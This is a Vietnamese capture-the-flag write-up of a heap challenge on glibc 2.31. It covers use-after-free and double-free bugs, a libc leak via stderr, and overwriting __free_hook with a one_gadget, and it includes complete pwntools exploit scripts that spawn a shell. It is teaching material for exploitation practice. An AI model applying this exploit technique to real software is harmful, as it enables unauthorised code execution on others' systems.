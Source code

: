# Chall1 2.31

- Đề bài cho ta 1 file libc , 1 file binary và file linker
- Đầu tiên ta mở ida xem thử

![](https://i.imgur.com/iwf6RHi.png)

- Nó sẽ in cho ta lần lượt các option và bắt ta lựa chọn, 1 để cấp phát động bằng `malloc()`, 2 để viết vào địa chỉ được cấp phát, 3 để free(), 4 để đọc thông tin ở địa chỉ đó
- Code có các lỗi sau : use after free và double free.
- Tiếp theo checksec để tìm hướng giải: 

![](https://i.imgur.com/LD3tqyv.png)

- Ta thấy full RELRO đồng nghĩa với overwrite GOT không khả thi. Dựa vào những chall dream hack trước kia thì ta có 2 địa chỉ ở libc (bản 2.31) vẫn còn quyền write: `stderr`, và `__free_hook`
- Do đó hướng làm hiện tại là leak libc bằng `stderr` và overwrite `__free_hook` thành `one_gadget`
- Nếu ta free 2 lần liên tiếp thì sẽ báo lỗi, do đó ta sẽ lợi dụng use after free để overwrite ptr được cấp phát thành null byte.
![](https://i.imgur.com/ByLE1qC.png).

- Mục tiêu chính của ta là overwrite `fd` thành địa chỉ ta muốn. Sở dĩ ta làm vậy vì khi ta `free` một địa chỉ, thì phần data của địa chỉ đó sẽ được sử dụng trong fastbin của linklist

![](https://i.imgur.com/DkYOhPA.png)

- Khi ta yêu cầu cấp phát bộ nhớ bằng `malloc()`, nó sẽ check bộ nhớ trong bin trước, khi ta overwrite fd bằng use after free, ta sẽ trick malloc tưởng địa chỉ ta overwrite là địa chỉ có thể cấp phát được.
- Do đó đầu tiên ta leak libc :

```python
p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'aaaaaaaa')
p.sendlineafter(b"> ",b'3')

#ow-data-to-bypass-double-free-error
p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',b'\x00'*16)

#double-free
p.sendlineafter(b"> ",b'3')

p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',p64(exe.sym['stderr']))

#get-new-ptr-until-get-our-ow-ptr
p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'bbbbbbb')


#leak-libc
p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendafter(b"Content: ",b'\xc0')

p.sendlineafter(b"> ",b'4')
p.recvuntil(b'Content: ')

leak = u64(p.recvline()[:-1]+b'\x00\x00')
libc.address = leak - 2021056 + 256
print("leak = ",hex(libc.address))
```

Trong script này, ta lợi dụng UAF để bypass lỗi double free, sau đó ta sài double free để OW fd thành `stderr` và dùng nó để leak libc bằng option thứ 4.

Sau đó ta OW `__free_hook` thành `one_gadget`.
```python
p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'aaaaaaaa')
p.sendlineafter(b"> ",b'3')

#ow-data-to-bypass-double-free-error
p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',b'\x00'*16)

#double-free
p.sendlineafter(b"> ",b'3')

p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',p64(libc.sym['__free_hook']))

p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'ccccccc')

p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendafter(b"Content: ",p64(libc.address + 0xe3b01))

p.sendlineafter(b"> ",b'3')
```

- Trong đoạn script này ta phải cấp phát một địa chỉ mới do địa chỉ cũ (tức stderr) khi `free` sẽ bị lỗi. Với địa chỉ mới đó ta làm tương tự các bước như trên để double free lấy được địa chỉ `__free_hook` và ghi vào nó `one_gadget`. Khi ấy `free()` đã bị overwrite thành địa chỉ ta muốn nên chỉ cần chọn option 3 để call lấy shell.

- Full Script:
```python 
from pwn import *
exe = ELF("chall1_patched")
libc = ELF("libc.so.6")
p=process(exe.path)
#create-first-ptr
p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'aaaaaaaa')
p.sendlineafter(b"> ",b'3')

#ow-data-to-bypass-double-free-error
p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',b'\x00'*16)

#double-free
p.sendlineafter(b"> ",b'3')

p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',p64(exe.sym['stderr']))

#get-new-ptr-until-get-our-ow-ptr
p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'bbbbbbb')


#leak-libc
p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendafter(b"Content: ",b'\xc0')

p.sendlineafter(b"> ",b'4')
p.recvuntil(b'Content: ')

leak = u64(p.recvline()[:-1]+b'\x00\x00')
libc.address = leak - 2021056 + 256
print("leak = ",hex(libc.address))

p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'aaaaaaaa')
p.sendlineafter(b"> ",b'3')

#ow-data-to-bypass-double-free-error
p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',b'\x00'*16)

#double-free
p.sendlineafter(b"> ",b'3')

p.sendlineafter(b"> ",b'2')
p.sendlineafter(b'Content: ',p64(libc.sym['__free_hook']))

p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendlineafter(b"Content: ",b'ccccccc')

p.sendlineafter(b"> ",b'1')
p.sendlineafter(b"Size: ",b'32')
p.sendafter(b"Content: ",p64(libc.address + 0xe3b01))

p.sendlineafter(b"> ",b'3')
p.interactive()
```

![](https://i.imgur.com/QVGGa42.png)

- Chạy thử và ta có shell